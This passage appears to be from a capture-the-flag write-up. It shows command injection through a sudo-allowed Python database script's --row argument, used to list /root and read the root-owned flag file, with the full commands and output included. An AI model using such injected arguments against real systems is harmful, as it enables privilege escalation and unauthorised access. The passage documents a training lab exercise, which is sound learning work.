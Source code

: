 Let's take a look at the home folder of `root`, `/root`.

```sh
sudo /home/jared/query_db.py --row='"; ls -la /root #' 2>&1 
.open /home/jared/chinook.db
SELECT 
total 20
drwx------ 1 root root 4096 Jul 17 03:51 .
drwxr-xr-x 1 root root 4096 Jul 23 15:13 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   51 Jul 17 03:24 flag.txt
Done!
```

Sure enough, the flag file is there.

```sh
sudo /home/jared/query_db.py --row='"; cat /root/flag.txt #' 2>&1 
.open /home/jared/chinook.db
SELECT 
STC{sud0_4nd_su1d_ea4b1d43ddf99e0c8f3338c8e33d5808}Done!
```

### Flag

```text
STC{sud0_4nd_su1d_ea4b1d43ddf99e0c8f3338c8e33d5808}
```
